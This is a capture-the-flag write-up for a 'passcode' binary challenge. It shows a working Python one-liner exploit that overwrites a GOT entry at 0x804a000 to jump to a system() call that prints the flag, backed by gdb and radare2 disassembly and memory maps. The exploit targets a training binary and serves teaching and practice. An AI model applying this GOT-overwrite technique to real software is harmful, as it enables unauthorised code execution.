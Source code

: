 # `passcode` Solution

First find a Read+Write memory in the process that is not affected by ASLR.
I found the beginning of the GOT table:

    0x804a000  0x804b000 rw-p     1000 1000   ./passcode

I than rewrite the beginning of it with the address inside the IF statement with
the execution of flag listing:

    0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
    0x080485de <+122>:   call   0x8048450 <puts@plt>
    0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
    0x080485ea <+134>:   call   0x8048460 <system@plt>
    0x080485ef <+139>:   leave
    0x080485f0 <+140>:   ret

Finally I get:

    python -c "import struct;print 'a'*96+struct.pack('<I',0x804a000);print '%i'%0x080485d7;print 13371337" | ./passcode

# Notes

    python -c "print 'a'*100; print 0; print 0" | ./passcode

    python -c 'import string;print (lambda l, b: "".join([string.ascii_letters[i%len(string.ascii_letters)]* b for i in range(l/b)]))(100, 4);print 0;print 0' | ./passcode

From radare2:

    /v 338150
    ...
    0x080485c8 hit1_0 e6280500
    /v 13371337
    ...
    0x080485d1 hit2_0 c907cc00


From gdb:

    pwndbg> vmmap
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
     0x8048000  0x804a000 r-xp     2000 0      ./passcode
     0x804a000  0x804b000 rw-p     1000 1000   ./passcode    !!!
     ...


From gdb:

    pwndbg> disassemble login
    Dump of assembler code for function login:
       0x08048564 <+0>: push   ebp
       0x08048565 <+1>: mov    ebp,esp
       0x08048567 <+3>: sub    esp,0x28
       0x0804856a <+6>: mov    eax,0x8048770
       0x0804856f <+11>:    mov    DWORD PTR [esp],eax
       0x08048572 <+14>:    call   0x8048420 <printf@plt>
       0x08048577 <+19>:    mov    eax,0x8048783
       0x0804857c <+24>:    mov    edx,DWORD PTR [ebp-0x10]
       0x0804857f <+27>:    mov    DWORD PTR [esp+0x4],edx
       0x08048583 <+31>:    mov    DWORD PTR [esp],eax
       0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
       0x0804858b <+39>:    mov    eax,ds:0x804a02c
       0x08048590 <+44>:    mov    DWORD PTR [esp],eax
       0x08048593 <+47>:    call   0x8048430 <fflush@plt>
       0x08048598 <+52>:    mov    eax,0x8048786
       0x0804859d <+57>:    mov    DWORD PTR [esp],eax
       0x080485a0 <+60>:    call   0x8048420 <printf@plt>
    => 0x080485a5 <+65>:    mov    eax,0x8048783
       0x080485aa <+70>:    mov    edx,DWORD PTR [ebp-0xc]
       0x080485ad <+73>:    mov    DWORD PTR [esp+0x4],edx
       0x080485b1 <+77>:    mov    DWORD PTR [esp],eax
       0x080485b4 <+80>:    call   0x80484a0 <__isoc99_scanf@plt>
       0x080485b9 <+85>:    mov    DWORD PTR [esp],0x8048799
       0x080485c0 <+92>:    call   0x8048450 <puts@plt>
       0x080485c5 <+97>:    cmp    DWORD PTR [ebp-0x10],0x528e6
       0x080485cc <+104>:   jne    0x80485f1 <login+141>
       0x080485ce <+106>:   cmp    DWORD PTR [ebp-0xc],0xcc07c9
       0x080485d5 <+113>:   jne    0x80485f1 <login+141>
       0x080485d7 <+115>:   mov    DWORD PTR [esp],0x80487a5
       0x080485de <+122>:   call   0x8048450 <puts@plt>
       0x080485e3 <+127>:   mov    DWORD PTR [esp],0x80487af
       0x080485ea <+134>:   call   0x8048460 <system@plt>
       0x080485ef <+139>:   leave
       0x080485f0 <+140>:   ret
       0x080485f1 <+141>:   mov    DWORD PTR [esp],0x80487bd
       0x080485f8 <+148>:   call   0x8048450 <puts@plt>
       0x080485fd <+153>:   mov    DWORD PTR [esp],0x0
       0x08048604 <+160>:   call   0x8048480 <exit@plt>
